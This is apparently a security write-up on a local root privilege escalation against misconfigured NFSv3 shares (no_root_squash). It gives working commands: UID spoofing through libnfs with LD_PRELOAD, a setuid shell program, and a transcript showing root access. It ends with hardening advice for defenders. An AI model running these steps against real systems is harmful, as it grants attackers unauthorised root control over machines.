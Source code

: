 A tale of a NFS privesc
=======================

There are countless online examples of privilege escalation abusing bad NFS configuration.

However they all rely on the same prerequisite: that you are able to mount the share from somewhere else.


The NFS options
---------------

Server export options:

* secure/insecure: in secure mode, forces the client to communicate using a port below 1024, hence proving they are root
* root_squash/no_root_squash: root_squash is the **secure default**. It replaces the root user with nfsnobody. This prevents setuid attacks, such as those presented below. The opposite option no_root_squash has the share behave like a traditional filesystem
* filtering: only let identified IP addresses mount the shares

Client mount options:

* noexec: forbids execution from the mountpoint
* nosuid: forbids setuid on the mountpoint


The classic remote attack
-------------------------

To briefly sum up what the attacks presented on the previous links do:

* mount the share from another machine where you're root
* place a setuid binary there
* on the victim machine, run the binary and get root

This attack requires two things:

* that the server is running no_root_squash
* that there is no network/application filtering that prevents the attacker from mounting the share on his own computer.


The  local attack
-----------------

Now, assume the share server still runs no_root_squash but there is something preventing you from mounting the share on your machine. So we're stuck to exploiting the machine locally from an unprivileged user. It just so happens that there is another, lesser known local exploit.

This exploit relies on a problem in the NFSv3 specification that mandates that it's the client that advertises its uid/gid when accessing the share. Thus it's possible to fake it!

Here's a [library that lets you do just that](https://github.com/sahlberg/libnfs).

Compiling the example
~~~~~~~~~~~~~~~~~~~~~
Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscall. Due to the absence of cmake on the system, I also needed to link against the precompiled library which can be [found here](https://sites.google.com/site/libnfstarballs/li).

```
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L../libnfs-1.11.0/lib/.libs/
```

Exploiting using the library
~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Let's use the simplest of exploits:
```
cat ../pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc ../pwn.c -o ../a.out
```

Place our exploit on the share and make it suid root:
```
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root:root nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that's left is to launch it:
```
[w3user@machine libnfs]$ /mnt/share/a.out
[root@machine libnfs]#
```

There we are, local root privilege escalation!

Thanks to @lnv42 for showing me this cool trick.


Takeaways
---------

Don't use NFSv3.

If you **HAVE** to use NFSv3:

* Don't use no_root_squash serverside
* Use noexec and nosuid clientside
